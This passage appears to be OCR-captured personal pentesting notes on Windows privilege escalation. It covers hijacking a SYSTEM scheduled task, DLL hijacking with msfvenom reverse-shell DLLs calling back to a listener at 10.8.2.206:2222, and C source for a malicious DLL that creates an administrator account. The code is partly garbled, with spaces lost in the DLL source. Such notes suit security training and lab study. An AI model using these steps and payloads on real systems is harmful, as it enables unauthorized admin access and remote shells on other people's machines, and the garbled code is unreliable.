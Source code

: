 Get-ScheduledTask | Where-Object {$_.Principal.UserId -eq "SYSTEM"}
```
- look for write permissions on a task run as SYSTEM
- modify to point at revshell
	- `schtasks /change /tn "TrustedTask" /tr "C:\Users\Public\malicious.exe"`
- trigger the task
	- `schtasks /run /tn "TrustedTask"`

DLL Hijacking
- Check writable directories in PATH:
	- `$env:PATH.Split(';') | ForEach-Object { Get-Acl $_ }`
- use procmon on another windows environment to find the name of the DLL the target application tries to load from the writable directory
	- transfer target .exe to host windows machine with smbserver.py or wormhole.app
	- launch procmon.exe from downloads\ProcessMonitor\procmon.exe
	- run target .exe
	- ctrl+E in procmon to stop monitoring
	- ctrl+L to bring up filter. Add 3 filters and hit Apply:
		- ProcessName + contains + *name of executable without .exe* > Add
		- Path + ends with + .dll > Add
		- Result + is + NAME NOT FOUND > Add
	- look for dll that sounds important. good indicator is it appears multiple times in filtered list
- on kali run `file KasperskyRemovalTool.exe` to see if 32 bit or 64 bit
	- if 32 bit, run `msfvenom -p windows/shell_reverse_tcp LHOST=10.8.2.206 LPORT=2222 -f dll > KasperskyRemovalToolENU.dll`
	- if 64 bit, run `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.2.206 LPORT=2222 -f dll > KasperskyRemovalToolENU.dll`
- start listener and transfer dll to same directory of .exe file on target machine with smb server
Another method is to create malicious dll that creates a new user
- `sudo vi myDLL.cpp`
myDLL.cpp:
```
#include<stdlib.h>#include<windows.h>BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved){  
        switch(ul_reason_for_call) {  
            caseDLL_PROCESS_ATTACH:  
                inti;  
                i = system("net user rogue password123! /add");  
                i = system("net localgroup administrators rogue /add");  
                break;  
            caseDLL_THREAD_ATTACH:  
            caseDLL_THREAD_DETACH:  
            caseDLL_PROCESS_DETACH:  
                break;  
        }  
        returnTRUE;  
    }
```

```
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```
- compile the dll
- copy myDLL.dll to same directory as scheduler.exe (C:\Scheduler\) and rename beyondhelper.dll
- go to services and restart scheduler
- confirm new user rogue was created with command:
	- `net user rogue`
- might need to restart service:
	- `net stop VulnerableService`
	- `net start VulnerableService`

Insecure File Permissions
```
accesschk.exe /accepteula -wvu "C:\Program Files"